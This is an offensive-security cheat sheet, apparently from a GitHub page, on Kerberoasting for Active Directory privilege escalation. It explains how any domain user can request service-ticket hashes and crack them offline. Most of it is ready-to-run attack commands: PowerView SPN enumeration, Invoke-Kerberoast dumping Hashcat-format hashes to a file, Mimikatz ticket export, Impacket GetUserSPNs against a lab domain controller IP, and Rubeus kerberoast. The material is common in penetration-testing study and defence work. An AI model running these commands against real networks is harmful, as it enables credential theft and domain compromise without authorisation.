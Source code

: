 # Active Directory Domain Privilege Escalation

## Active Directory Domain Privilege Escalation

### Kerberoast

_What is this:_  All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a "user"  
account, extract the encrypted blob that was encrypted using the user's password and, brute force it offline.

PowerView: Get User Accounts that are used as Service Accounts

```text
Get-NetUser -SPN
```

Get every available SPN account, request a TGS, and dump its hash

```text
. .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath 'C:\Users\Administrator\Music\hash_capture.txt' -Width 8000
```

Requesting the TGS for a single account:

```text
Request-SPNTicket
```

Export all tickets using Mimikatz

```text
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

**AD Module:**

```text
Get User Accounts that are used as Service Accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

**Impacket-GetUsersSPNs:**

```text
python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS -request -save -outputfile GetUserSPNs.out
```

Rubeus:

Kerberoasting and outputing on a file with a specific format

```text
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>
```
